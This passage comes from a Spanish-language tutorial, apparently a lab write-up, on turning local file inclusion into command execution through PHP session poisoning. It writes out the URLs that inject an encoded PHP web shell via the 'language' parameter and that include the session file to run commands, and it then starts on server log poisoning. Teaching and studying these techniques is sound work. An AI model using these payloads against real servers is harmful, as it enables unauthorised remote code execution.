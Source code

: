 El valor `page` está bajo nuestro control, ya que podemos controlarlo a través del parámetro `?language=`.

### Envenenando la Sesión

Establecemos un valor personalizado para verificar que podemos controlar el contenido:

```
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

![Session Poisoning Test](/assets/img/posts/log-poisoning/session-poisoning-test.png)
_Verificación de control sobre el contenido de la sesión_

Ahora envenenamos la sesión escribiendo código PHP mediante URL encoding:

```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

### Ejecución de Comandos

Finalmente, incluimos el archivo de sesión y ejecutamos comandos:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_jt8tq8r5fveklnnmqd38bsplkc&cmd=id
```

![Command Execution](/assets/img/posts/log-poisoning/session-command-execution.png)
_Ejecución exitosa de comandos a través de la sesión envenenada_

> **Nota:** Para ejecutar otro comando, el archivo de sesión debe ser envenenado nuevamente con el web shell, ya que se sobrescribe después de nuestra última inclusión.

---

## Server Log Poisoning

### Ubicaciones de Logs por Defecto

Tanto Apache como Nginx mantienen varios archivos de log, como `access.log` y `error.log`. El archivo `access.log` contiene información variada sobre todas las peticiones realizadas al servidor, incluyendo el header **User-Agent** de cada petición.
